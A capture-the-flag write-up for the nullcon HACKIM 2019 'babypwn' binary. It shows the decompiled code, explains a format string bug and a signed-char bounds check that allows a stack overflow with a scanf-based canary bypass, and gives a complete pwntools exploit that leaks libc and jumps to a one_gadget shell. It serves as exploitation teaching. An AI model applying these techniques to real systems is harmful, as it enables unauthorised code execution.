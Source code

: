 # nullcon HACKIM 2019 babypwn

# Info
```
[*] '/mnt/hgfs/Shared/babypwn'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# Analysis
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  char *v4; // rax
  char *v5; // rax
  char *v6; // rsi
  unsigned __int8 min_6A; // [rsp+6h] [rbp-6Ah]
  unsigned __int8 i; // [rsp+7h] [rbp-69h]
  char *format; // [rsp+8h] [rbp-68h]
  char min_60[80]; // [rsp+10h] [rbp-60h]
  char v11; // [rsp+60h] [rbp-10h]
  unsigned __int64 v12; // [rsp+68h] [rbp-8h]

  v12 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(_bss_start, 0LL);
  min_6A = 0;
  puts("Create a tressure box?\r");
  _isoc99_scanf("%2s", &v11);
  if ( v11 == 'y' || v11 == 'Y' )
  {
    printf("name: ", &v11);
    v4 = (char *)malloc(0x64uLL);               // 100
    format = v4;
    // v4 = "Tressure Box: "
    *(_QWORD *)v4 = 'erusserT';
    *((_DWORD *)v4 + 2) = 'xoB ';
    *((_WORD *)v4 + 6) = ' :';
    v4[14] = 0;
    _isoc99_scanf("%50s", format + 14);
    v5 = &format[strlen(format)];
    // v4 = "Tressure Box: created!\r\n"
    *(_QWORD *)v5 = 'detaerc ';
    *((_DWORD *)v5 + 2) = '\n\r!';
    puts("How many coins do you have?\r");
    v6 = (char *)&min_6A;
    _isoc99_scanf("%hhu", &min_6A);
    if ( (char)min_6A > 20 )
    {
      perror("Coins that many are not supported :/\r\n");
      exit(1);
    }
    for ( i = 0; i < min_6A; ++i )
    {
      v6 = &min_60[4 * i];
      _isoc99_scanf("%d", v6);
    }
    printf(format, v6);
    free(format);
    result = 0;
  }
  else
  {
    puts("Bye!\r");
    result = 0;
  }
  return result;
}
```
Program allocates 0x64 bytes memory and takes user input in it.

then takes the number of coins and get another inputs.

The vulnerability is ```printf(format);```. It has format string vulnerability.

and There is another one. in ```scanf("%hhu", &min_6A)```, scanf gets input type of %hhu(unsigned 1 byte).

However, ```if ((char)min_6A > 20)``` examines that value in type char, which is signed.

If a number that is larger than 0x7F is given, it passes boundary test and we can overflow stack.

The point here is that the program uses **scanf** for input.

When given input doesn't match the type specified in scanf's first parameter, an error occurs and no input goes in.

Though the program has stack smashing protector, we can bypass this with the error of scanf.

```
Create a tressure box?
y
name: %p.%p
How many coins do you have?
1
1
Tressure Box: 0x1.0x7fb43ae66770 created!
```
With a few tests, able to get libc leak easily.

# Exploit
1. Libc leak using format string and go back to main
2. Stack overflow again and return to one_gadget
```
from pwn import *

binary = ELF('./babypwn')
libc = ELF('./libc.so.6')

main_addr = 0x400806
libc_offset = 0x3c6790
gadget_offset = 0xf1147 # 0x45216 0x4526a 0xf02a4 0xf1147

p = process('./babypwn', env = {'LD_PRELOAD' : './libc.so.6'})

# gdb.attach(p, 'b *0x4009a3');

# Stage1: Leak libc addr and return to main
p.sendline('y')
p.sendlineafter('name: ', '%p' * 25)
p.sendlineafter('have?', '128')

for i in range(22):
  p.sendline('1094795585') # AAAAAAAA

for i in range(4):
  p.sendline('-')

p.sendline(str(main_addr))
p.sendline('0')

for i in range(100):
  p.sendline('0')

p.recvuntil('Tressure Box: ')
libc_addr = int(p.recv().split('0x')[2], 16) - libc_offset
one_gadget_addr = libc_addr + gadget_offset
log.info('libc_addr: ' + hex(libc_addr))
log.info('gadget_addr: ' + hex(one_gadget_addr))


# Stage2: overwrite return address to one_gadget
p.sendline('y')
p.sendlineafter('name: ', '%p' * 25)
p.sendlineafter('have?', '128')

for i in range(22):
  p.sendline('1094795585') # AAAAAAAA

for i in range(4):
  p.sendline('-')

log.info(hex(one_gadget_addr & 0x00000000ffffffff))
log.info(hex((one_gadget_addr & 0xffffffff00000000) >> 32))
p.sendline(str(one_gadget_addr & 0x00000000ffffffff))
p.sendline(str((one_gadget_addr & 0xffffffff00000000) >> 32))


for i in range(100):
  p.sendline('0')

p.interactive();
```